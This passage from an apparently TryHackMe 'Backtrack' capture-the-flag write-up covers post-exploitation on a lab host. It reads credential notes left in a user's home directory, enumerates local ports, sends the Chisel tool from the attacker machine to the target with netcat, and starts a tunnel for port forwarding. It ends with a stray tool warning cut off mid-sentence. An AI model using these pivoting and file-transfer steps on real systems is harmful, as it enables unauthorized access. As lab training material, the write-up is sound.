 We can notice that Wilbur's home directory contains interesting files. The `from_orville.txt` file indicates that a web application is run locally by another user Orville.
```bash
wilbur@Backtrack:~$ ls -a
.   .ansible       .bashrc            .mysql_history  from_orville.txt
..  .bash_history  .just_in_case.txt  .profile
wilbur@Backtrack:~$ cat .just_in_case.txt 
in case i forget :

wilbur:<REDACTED>
wilbur@Backtrack:~$ cat from_orville.txt 
Hey Wilbur, it's Orville. I just finished developing the image gallery web app I told you about last week, and it works just fine. However, I'd like you to test it yourself to see if everything works and secure.
I've started the app locally so you can access it from here. I've disabled registrations for now because it's still in the testing phase. Here are the credentials you can use to log in:

email : orville@backtrack.thm
password : <REDACTED>
wilbur@Backtrack:~$
```

We can enumerate the port used by this web application using the `netstat` command.
```bash
wilbur@Backtrack:~$ netstat -lnt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN     
<SNIP>   
tcp6       0      0 :::8888 
```

We can perform port forwarding to access the web application running locally on the target. A handy tool to perform this is Chisel. We can transfer Chisel from our attack host to the target using Netcat.
```bash
wilbur@Backtrack:/tmp$ nc -lvnp 4444 > chisel; chmod 755 chisel
Listening on 0.0.0.0 4444
Connection received on 10.8.23.19 54766
```

```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ nc -q 0 10.10.242.37 4444 < /opt/linux-extra/chisel
```

Now that we have Chisel on the target, we can run Chisel's server to listen on a specific port.
```bash
wilbur@Backtrack:/tmp$ ./chisel server -p 5555 
2024/10/14 11:34:33 server: Fingerprint KeYC2+GuZSaKiU7XCUQp/T5/ArqzmYN9GMmp7IJnzck=
2024/10/14 11:34:33 server: Listening on http://0.0.0.0:5555
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that